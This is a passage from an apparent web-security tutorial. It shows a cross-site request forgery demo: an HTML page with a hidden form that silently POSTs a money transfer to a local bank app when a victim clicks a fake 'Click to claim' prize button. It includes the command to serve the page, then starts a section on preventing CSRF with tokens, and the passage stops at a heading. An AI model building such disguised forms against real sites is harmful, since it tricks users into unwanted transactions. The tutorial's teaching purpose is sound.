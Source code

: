 ```html
<form hidden id="hack" target="csrf-frame" action="http://localhost:5000/accounts" method="POST" autocomplete="off">
    <input type="number" name="amount" value="2000">
</form>
<iframe hidden name="csrf-frame"></iframe>

<h3>You won $100,000</h3>
<button onClick="hack();" id="button">Click to claim</button>
<br>
<div id="warning"></div>

<script>
    function hack() {
        document.getElementById("hack").submit();
        document.getElementById("warning").innerHTML="check your bank balance!";
    }
</script>
```

You can serve up this page on [http://localhost:8002](http://localhost:8002) by navigating to the project directory and running the following command in a new terminal window:

```sh
$ python -m http.server --directory hacker 8002
```

![hacker](img/hacker.PNG)

Other than the poor design, nothing seems suspicious to ordinary eyes. But behind the scenes, there's a hidden form that executes in the background removing all the money from the user's account.

An attacker could email a link to this page disguised as some of prize giveaway. Now, after opening the page and clicking the "Click to claim" button, a POST request is sent to [http://localhost:5000/accounts](http://localhost:5000/accounts) that exploits the trust established between the bank and the web browser.

## How can you Prevent CSRF?

CSRF attacks can be [prevented](https://en.wikipedia.org/wiki/Cross-site_request_forgery#Prevention) by using a CSRF token -- a random, unguessable string -- to validate the request origin. For unsafe requests with side effects like an HTTP POST form submission, you must provide a valid CSRF token so the sever can verify the source of the request for CSRF protection.

### CSRF Token Workflow
